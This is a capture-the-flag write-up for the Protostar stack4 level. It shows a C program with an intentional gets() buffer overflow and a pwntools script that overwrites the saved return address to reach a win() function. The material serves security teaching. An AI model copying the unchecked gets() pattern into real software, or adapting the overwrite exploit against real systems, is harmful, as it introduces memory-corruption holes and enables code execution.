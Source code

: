 ## Challenge Description

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solution

```python
from pwn import *

target = process("./stack4")
elf = context.binary = ELF("./stack4", checksec = False)
context.log_level = "debug"

win = elf.sym.win

payload = b"0"*76 + p32(win) # 76 was the offset which overflowed eip

target.sendline(payload)
target.interactive()
```
